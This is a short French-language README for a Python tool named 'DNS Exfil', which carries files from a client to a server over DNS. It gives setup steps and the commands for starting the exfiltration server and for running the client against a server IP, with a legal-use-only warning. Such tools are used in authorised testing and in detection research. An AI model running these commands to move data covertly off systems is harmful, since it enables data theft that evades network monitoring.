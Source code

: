 # DNS-file-transfer
simple python script to transfer files from client to server over dns

# DNS Exfil — README (FR)

**Usage légal uniquement.** N'exécutez que sur des machines dont vous avez l'autorisation.

---

## Serveur

### 1) Se placer dans le dossier

```bash
cd server
```

### 2) Créer l'environnement virtuel

```bash
python3 -m venv myenv
```

### 3) Activer l'environnement

```bash
source myenv/bin/activate
```

### 4) Installer les dépendances

```bash
pip install -r requirements.txt
```

### 5) Lancer le serveur

```bash
python3 dns_exfil_server.py -d domaine.com -p motdepasse --port 53535
```

---

## Client

### 1) Se placer dans le dossier

```bash
cd client
```

### 2) Lancer le client

```bash
python dns_exfil_client.py <fichier> domaine.com motdepasse -s=<ip_serveur> -p=53535
```

---
